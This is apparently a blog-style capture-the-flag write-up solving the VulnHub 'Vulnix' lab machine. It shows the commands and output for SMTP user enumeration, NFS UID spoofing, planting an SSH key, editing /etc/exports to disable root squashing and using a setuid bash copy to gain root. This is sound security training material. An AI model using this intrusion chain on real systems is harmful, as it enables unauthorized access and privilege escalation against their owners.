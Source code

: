﻿### Vulnix Writeup
Today it's the Vulnix machine by Rebootuser which you can find hosted at https://www.vulnhub.com/entry/hacklab-vulnix,48/

We start off with the usual nmap scan and get a few random services and no web server on this one.
```
nmap -v -sV -Pn -n 192.168.147.158 
```

```
PORT     STATE SERVICE  VERSION                    
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)                    
25/tcp   open  smtp     Postfix smtpd                                                                 
79/tcp   open  finger   Linux fingerd                                                                 
110/tcp  open  pop3     Dovecot pop3d                                                                 
111/tcp  open  rpcbind  2-4 (RPC #100000)          
143/tcp  open  imap     Dovecot imapd                                                                 
512/tcp  open  exec     netkit-rsh rexecd          
513/tcp  open  login?                              
514/tcp  open  shell    Netkit rshd                
993/tcp  open  ssl/imap Dovecot imapd                                                                 
995/tcp  open  ssl/pop3 Dovecot pop3d                                                                 
2049/tcp open  nfs_acl  2-3 (RPC #100227)  
```
Some interesting things here, first off the nfs running on 2049 shows us a possible user named vulnix.
```
root@sushi:~# showmount -e 192.168.147.158
Export list for 192.168.147.158:
/home/vulnix *
```
So we check it on the SMTP and yes that is a valid user.
```
root@sushi:~# nc -nv 192.168.147.158 25
(UNKNOWN) [192.168.147.158] 25 (smtp) open

220 vulnix ESMTP Postfix (Ubuntu)
500 5.5.2 Error: bad syntax
VRFY vulnix
252 2.0.0 vulnix
VRFY root
252 2.0.0 root
VRFY crappy
550 5.1.1 <crappy>: Recipient address rejected: User unknown in local recipient table
^C
```
What is in Vulnix's home folder? We try mounting it and if we force it to use nfs version 3 or lower we can see the UID and GID for the owner is 2008 which we will need in a second.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# ls -l
total 12
drwxr-xr-x 2 root root 4096 Dec 20 20:26 jail
drwxr-xr-x 2 root root 4096 Dec 20 20:27 opt
drwxr-x--- 2 2008 2008 4096 Sep  2  2012 vulnix
root@sushi:/mnt# cd vulnix
bash: cd: vulnix: Permission denied
```
Awesome we can't actually access the folder, but I'm assuming if we have a user named vulnix with the same UID then it won't be a problem.
```
root@sushi:/mnt# useradd -u 2008 vulnix
root@sushi:/mnt# su vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd vulnix
$ ls -lah
total 20K
drwxr-x--- 2 vulnix vulnix 4.0K Sep  2  2012 .
drwxr-xr-x 5 root   root   4.0K Mar 18 20:24 ..
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile
```
Nothing really in there, lets create some ssh keys and add the public key to the vulnix users authorized_keys.
```
root@sushi:/# ssh-keygen                           
Generating public/private rsa key pair.            
Enter file in which to save the key (/root/.ssh/id_rsa):                                              
Enter passphrase (empty for no passphrase):        
Enter same passphrase again:                       
Your identification has been saved in /root/.ssh/id_rsa.                                              
Your public key has been saved in /root/.ssh/id_rsa.pub.                                              
The key fingerprint is:                            
SHA256:SsY11VtkZekosDWAc+sMetO6J5GLsnWAkQgdNxaTRAk root@sushi                                         
The key's randomart image is:                      
+---[RSA 2048]----+                                
|..E=O+  ..o. .o.+|                                
|. oo+o o + o...o |                                
| . o    = = .oo  |                                
|    o. o + ... . |                                
|   . .= S   .    |                                
|     +.* +       |                                
|     .+.=        |                                
|   ....+ .       |                                
|   .o  .+        |                                
+----[SHA256]-----+                                
root@sushi:~# cd /root/.ssh                              
root@sushi:~/.ssh# ls                              
id_rsa  id_rsa.pub  known_hosts                    
root@sushi:~/.ssh# su vulnix                       
$ cd /mnt/vulnix                                   
$ mkdir .ssh                                       
$ cd .ssh                                          
$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtV4eYiSqrw0sfD2Plm+AFfS99c5BsN4Xc67xWiIcN9gqxk8V/x3AGEUwLNNuAPAu/+inDQkv5HdKJwL56cgKKzDpeNtVaMwd8z3Xx1mHercAeIjyyYdl5HHxDgId23QIfgGJByFTLM77tRuJCiCPG/2EaCaAaykaIiobKorI2ujc61Z3Guzja/DXzSzmnGzeG/zSopdkRuUHu1ywQqj2D8GoJob4SL67juspotBA2DBX37nPpOvvy0drqK0z6UlyUj+ChZh8c15zOftJJuD4pImXKKX5T/pxprockcpCyUAQNw2Q+Ug5KgMo6g9WvwNAKXMOgDWDT5DKuAqjgmm1/ root@sushi > authorized_keys                                             
$                                                  
```
And then we can ssh onto the box with the vulnix account nice.
```
root@sushi:~/.ssh# ssh vulnix@192.168.147.158      
The authenticity of host '192.168.147.158 (192.168.147.158)' can't be established.                    
ECDSA key fingerprint is SHA256:IGOuLMZRTuUvY58a8TN+ef/1zyRCAHk0qYP4wMViOAg.                          
Are you sure you want to continue connecting (yes/no)? yes                                            
Warning: Permanently added '192.168.147.158' (ECDSA) to the list of known hosts.                      
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)                                   

 * Documentation:  https://help.ubuntu.com/        

  System information as of Sun Mar 18 17:35:22 GMT 2018                                               

  System load:  0.0              Processes:           89                                              
  Usage of /:   90.2% of 773MB   Users logged in:     0                                               
  Memory usage: 7%               IP address for eth0: 192.168.147.158                                 
  Swap usage:   0%                                 

  => / is using 90.2% of 773MB                     

  Graph this data and manage this system at https://landscape.canonical.com/                          


The programs included with the Ubuntu system are free software;                                       
the exact distribution terms for each program are described in the                                    
individual files in /usr/share/doc/*/copyright.    

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                  
applicable law.                                    

vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 athlon i386 GNU/Linux
```
So first off we check if this account can do anything with sudo, and we can run sudoedit on the exports file good deal.
```
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
Looking at /etc/exports, we can disable the root_squashing for the vulnix home folder which will allow us to copy something like bash and give it setuid permissions. We could also add roots home folder to the /etc/exports with no_root_squash and echo in our ssh key to his authorized_keys and get root access that way.
```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/vulnix    *(rw,no_root_squash)
```
So the next step really tripped me up as I'm just not used to doing this for these vm's, but to get the config change to take effect we have to actually reboot the machine. Remember to unmount the home folder also or it will take forever. When it's back up, we mount the home directory again and copy over /bin/bash.
```
root@sushi:/mnt# mount 192.168.147.158:/home/vulnix vulnix -o vers=3
root@sushi:/mnt# cd vulnix
root@sushi:/mnt/vulnix# cp /bin/bash .
root@sushi:/mnt/vulnix# chmod 4777 bash
root@sushi:/mnt/vulnix# ls -lah                    
total 1.3M                                         
drwxr-x--- 4 vulnix vulnix 4.0K Mar 18 14:16 .     
drwxr-xr-x 5 root   root   4.0K Mar 18 21:09 ..    
-rwsrwxrwx 1 root   root   1.3M Mar 18 14:16 bash  
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout                       
-rw-r--r-- 1 vulnix vulnix 3.5K Apr  3  2012 .bashrc                            
drwx------ 2 vulnix vulnix 4.0K Mar 18 13:35 .cache
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile                           
drwxr-xr-x 2 vulnix vulnix 4.0K Mar 18 13:34 .ssh  
```
Then back in our ssh session as the vulnix user, we just run bash in the home folder with the -p flag to preserve file permissions.
```
vulnix@vulnix:~$ id                                
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)                                                 
vulnix@vulnix:~$ ./bash -p                         
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# id                                       
uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)                            
bash-4.4# cd /root                                 
bash-4.4# ls                                       
trophy.txt                                         
bash-4.4# cat trophy.txt                           
cc614640424f5bd60ce5d5264899c3be                   
```
That was a good one for sure, having to reboot the machine was different and the rest of it was interesting learning a bit about and using nfs for the first time in awhile.  As always thanks to VulnHub and Rebootuser for all the hard work.


